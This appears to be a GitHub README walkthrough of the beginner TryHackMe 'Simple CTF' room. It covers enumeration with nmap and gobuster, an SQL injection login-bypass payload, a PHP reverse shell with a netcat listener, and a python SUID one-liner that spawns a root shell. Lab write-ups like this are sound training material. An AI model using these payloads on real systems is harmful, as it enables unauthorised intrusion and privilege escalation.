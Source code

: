 # 🧠 TryHackMe – Simple CTF Walkthrough

**CTF Type:** Web Exploitation & Privilege Escalation  
**Platform:** TryHackMe  
**Level:** Beginner  
**Tags:** #CTF #TryHackMe #WebSecurity #PrivilegeEscalation

---

## 🧭 Overview

This writeup covers the full walkthrough for the Simple CTF room on TryHackMe. The objective was to identify open ports, exploit a web vulnerability, gain shell access, and escalate privileges to root.

---

## 🛠 Tools Used

- Nmap  
- Gobuster  
- Burp Suite  
- Netcat  
- LinPEAS  
- Linux CLI

---

## 🕹 Steps

### 1. **Enumeration**
```bash
nmap -sC -sV -oN nmap.txt 10.10.10.10
```
Open ports:
- 22 (SSH)
- 80 (HTTP)

Discovered login page at `/admin`. Ran:
```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### 2. **Exploitation**
Used SQL Injection on login page:
```sql
admin' OR '1'='1 --
```
Gained access to file upload panel. Uploaded PHP reverse shell and ran:
```bash
nc -lvnp 4444
```

### 3. **Privilege Escalation**
Used `linpeas.sh` to scan for privesc opportunities. Found:
- `/usr/bin/python` had SUID set

Used:
```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Grabbed root flag from `/root/root.txt`.

---

## 📘 Takeaways

- Identified SQL Injection vulnerability
- Practiced reverse shell delivery
- Learned to escalate privileges using SUID binaries
- Reinforced structured enumeration and documentation

---

## 📸 Screenshots (Optional)
- Add `/screenshots` folder and embed using Markdown

---

## 🔖 Notes

This repo is for educational purposes only.
